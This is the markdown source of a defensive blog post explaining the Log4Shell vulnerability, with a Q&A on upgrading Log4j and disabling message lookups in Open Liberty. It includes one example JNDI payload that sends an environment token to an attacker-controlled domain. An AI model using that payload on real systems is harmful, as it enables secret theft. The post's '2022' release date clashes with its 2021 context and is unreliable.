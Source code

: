 ---
layout: post
title: "Liberty Guide on Log4j CVE-2021-44228 (Log4Shell)"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228 (Log4Shell)
seo-description: Open Liberty Guide on understanding and solving Log4j2 CVE-2021-44228
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228 (Log4Shell) and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2, a popular Java logging framework, to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J V2 and how the Java Naming and Directory (JNDI) API works when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to `2.16`. 

* Q2. If I am running with latest version of Java, am i protected? Do i still need to follow remediate steps? 

`CVE-2021-44228`is specific to Log4J V2 and has nothing to do with Java or its level. Features in the most recent releases of Java mitigate some, but not all of the risk. 


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` 2.10 or newer is being used setting the Java System property log4j2.formatMsgNoLookups to true will mitigate the issue. Setting an environment variable to `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` will also have the same effect. These steps will not mitigate `CVE-2021-45046`.


* Q4 How can I configure Liberty with log4j2.formatMsgNoLookups?

Create a jvm.options file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running log4j1 which is not vulnerable to CVE-2021-44228.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x libraries. It is a property related to log4j 2.x behavior.


* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM.

If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/security-bulletin-vulnerability-apache-log4j-affects-websphere-application-server-cve-2021-44228[this blog] to learn about more on how to respond to this CVE.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix%C2%A0[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]